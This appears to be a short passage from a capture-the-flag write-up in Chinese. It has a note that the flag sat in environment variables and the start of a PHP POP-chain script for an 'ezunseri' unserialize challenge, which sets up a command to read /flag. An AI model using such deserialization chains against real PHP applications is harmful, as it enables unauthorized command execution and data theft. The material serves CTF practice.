```python
```
在环境变量中找到flag<br />![image.png](./images/20231018_0002151747.png)
# ezunseri
POP链
```php
<?php
class Exec
{
    public $content;
}


class Test
{
    public $test;
} 

class Login
{
    public $key;
}

$cmd = 'cat /flag';
$a = new Exec();
$b = new Test();
$c = new Login();
$d = new Exec();
$c->key = $a;
```